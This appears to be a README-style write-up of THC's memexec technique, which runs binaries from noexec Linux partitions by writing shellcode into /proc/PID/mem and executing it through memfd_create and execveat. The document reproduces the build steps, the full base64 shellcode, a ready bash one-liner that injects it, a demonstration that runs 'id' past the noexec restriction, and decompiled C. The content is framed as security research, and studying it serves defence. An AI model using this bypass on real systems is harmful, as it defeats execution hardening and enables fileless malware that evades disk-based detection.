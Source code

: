 ## noexec bypass

Userland execution without touching the disk has been existed in the hacking community for quite some time. The first paper on Userland exec was authored by the grugq in 2004. Since then, this technique has continuously evolved in various forms within the hacker community. A recent [write-up](https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries) by THC (The Hacker's Choice, an 0ldsk00l hacker community) "Bypassing noexec and executing arbitrary binaries" has taken this concept to a new level by simplifying the process of writing PoC/exploits that bypass partitions with the noexec flag. The root cause of this exploit vector lies in a change made to the Linux kernel in 2012, which [removed the restrictions on writing to /proc/PID/mem](https://lwn.net/Articles/476947/). THC's write-up provides a detailed explanation of how the [PoC](https://github.com/hackerschoice/memexec) work.

### Set up a RW partition with noexec flag
```
dd if=/dev/zero of=ro-partition.img bs=1M count=100
mkfs.ext4 ro-partition.img 
mkdir /mnt/ro-part
mount -o loop,noexec ro-partition.img /mnt/ro-part/
cd 
git clone https://github.com/hackerschoice/memexec.git
```
### Build the binary:
```
nasm -f elf64 -o memexec-bash-arg-env.o memexec-bash-arg-env.nasm && ld memexec-bash-arg-env.o
```

### Generate shellcode and encode it as base64:
```
ved@debian-vtest:/mnt/ro-part/memexec$ objdump -d a.out |grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' '|tr '\t' ' ' | sed 's/ //g' | xxd -r -p | base64 -w 0
SIngTTHSSIM4AHUQSIN4CCF1CUiD6AhJicLrBkiDwAjr5EyJ0E0x200x5EiDOAB1EEmJw0mD6whIg8AISYnE6wZIg+gI6+RMidhNMe1IMf9IixhIOft0JUiLC0iB4f///wBIgfktLQAAdQlJicZIiXj46wlIg+gISP/H69NIieVIgewSBAAASLhrZXJuZWwAAGoAULg/AQAASInnSDH2DwVJicC4AAAAAL8AAAAASInmugAEAAAPBUiJwkiD+gB+D7gBAAAATInHSInmDwXr1LhCAQAATInHagBIieZMifJIMclNMclNieJBuAAQAAAPBbg8AAAAv2MAAAAPBQ==
```

## Use the base64 code and run it on Bash:
```
ved@debian-vtest:/mnt/ro-part/memexec$ memexec() { bash -c 'cd /proc/$$;exec 4>mem;base64 -d<<<SIngTTHSSIM4AHUQSIN4CCF1CUiD6AhJicLrBkiDwAjr5EyJ0E0x200x5EiDOAB1EEmJw0mD6whIg8AISYnE6wZIg+gI6+RMidhNMe1IMf9IixhIOft0JUiLC0iB4f///wBIgfktLQAAdQlJicZIiXj46wlIg+gISP/H69NIieVIgewSBAAASLhrZXJuZWwAAGoAULg/AQAASInnSDH2DwVJicC4AAAAAL8AAAAASInmugAEAAAPBUiJwkiD+gB+D7gBAAAATInHSInmDwXr1LhCAQAATInHagBIieZMifJIMclNMclNieJBuAAQAAAPBbg8AAAAv2MAAAAPBQ==|dd bs=1 seek=$[$(cat syscall|cut -f9 -d" ")]>&4' "$@"; }
```

### Show time:
```
ved@debian-vtest:/mnt/ro-part/memexec$ cp /bin/id .
ved@debian-vtest:/mnt/ro-part/memexec$ ./id
-bash: ./id: Permission denied
ved@debian-vtest:/mnt/ro-part/memexec$ cat id |  memexec -- 
253+0 records in
253+0 records out
253 bytes copied, 0.000326824 s, 774 kB/s
uid=1000(ved) gid=1000(ved) groups=1000(ved),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

### C code based on help of decompilers
Base on the [output of decompilers](https://dogbolt.org/?id=47cc5eab-f919-4eea-a6f6-adabc90a1875#Hex-Rays=17). The C code is roughly look like:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <fcntl.h>

#define BUFFER_SIZE 1024
char buffer2[BUFFER_SIZE] = {0};

int main(int argc, char *argv[], char *envp[]) {
    // Find the start of the stack
    char **env = envp;
    char **arg = argv;
    char *last_arg = NULL;
    char *first_env = NULL;

    // Find the last argument and the first environment variable
    while (*arg) {
        last_arg = *arg;
        arg++;
    }
    first_env = env[0];

    // Create a memory file descriptor
    int memfd = memfd_create("kernel", 0);

    if (memfd < 0) {
	    syscall(SYS_exit, EXIT_FAILURE);
	}

    // Create a buffer for reading input
    char *buffer = buffer2;
    if (!buffer) {
	    syscall(SYS_exit, EXIT_FAILURE);
    }

    ssize_t bytes_read;
    while ((bytes_read = syscall (SYS_read, STDIN_FILENO, buffer, BUFFER_SIZE)) > 0) {
        // Write data to the memory file descriptor
        if ( syscall(SYS_write, memfd, buffer, bytes_read) != bytes_read) {
        	syscall(SYS_exit, EXIT_FAILURE);
        }
    }

    if (bytes_read < 0) {
	    syscall(SYS_exit, EXIT_FAILURE);
    }

    // Prepare to execveat the program in memfd
    char *empty_path = ""; // AT_EMPTY_PATH
    char **new_argv = argv; // Use the original argv
    char **new_envp = envp; // Use the original envp

    // Execute the program in the memory file descriptor
    syscall (SYS_execveat, memfd, empty_path, new_argv, new_envp, 0);

    // If execveat fails
     syscall(SYS_exit, EXIT_FAILURE);
}
```

## Reference
* Bypassing noexec and executing arbitrary binaries https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries
* A /proc/PID/mem vulnerability https://lwn.net/Articles/476947/
* Execute ELF files without dropping them on disk https://github.com/nnsee/fileless-elf-exec
* userland exec for Linux x86_64 https://github.com/bediger4000/userlandexec
* The Design and Implementation of Userland Exec https://grugq.github.io/docs/ul_exec.txt
